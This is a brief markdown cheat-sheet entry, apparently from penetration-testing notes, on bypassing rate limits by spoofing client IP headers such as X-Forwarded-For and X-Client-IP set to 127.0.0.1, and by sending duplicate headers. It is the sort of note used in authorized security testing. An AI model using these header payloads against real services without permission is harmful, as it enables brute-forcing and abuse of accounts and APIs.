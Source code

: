 # Rate Limit Bypass

Attempt to add the following headers and see if you can bypass rate limiting by changing the IP origin:

```bash
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Host: 127.0.0.1
X-Forwared-Host: 127.0.0.1

# You can also attempt to use two of the same header:
X-Forwarded-For:
X-Forwarded-For: 127.0.0.1
```
